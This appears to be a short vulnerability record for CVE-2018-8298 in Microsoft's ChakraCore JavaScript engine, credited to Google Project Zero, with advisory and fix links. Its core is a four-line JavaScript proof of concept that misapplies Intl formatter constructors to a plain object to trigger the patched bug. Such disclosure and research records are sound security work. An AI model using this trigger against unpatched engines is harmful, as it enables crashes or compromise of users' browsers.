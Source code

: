 # CVE-2018-8298

- Fix: Aug 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let object = {};
Intl.NumberFormat.apply(object);
Intl.DateTimeFormat.apply(object);
Intl.DateTimeFormat.prototype.formatToParts.apply(object);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8298)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1582)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/cb9957e2763c36dbd12afa5c9261465159e16c86)

